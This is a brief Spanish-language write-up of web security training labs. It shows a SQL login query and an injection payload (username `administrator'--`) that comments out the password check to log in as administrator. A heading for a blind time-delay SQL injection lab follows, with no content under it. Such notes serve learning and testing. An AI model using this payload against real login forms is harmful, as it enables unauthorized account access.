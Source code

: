 
### LAB: Bypass inicio de session `admin credentials`

Por defecto debajo del inicio de sesion corre una consulta SQL de la sig manera: 

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Y lo podemos bypassear de la manera: 

* Username: `administrator'--`
* Password: `' AND password = ''`
 
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

![](Pasted%20image%2020250223115340.png)

---
### LAB: Blind SQL Time Delay Recuperando informacion `trackingId`
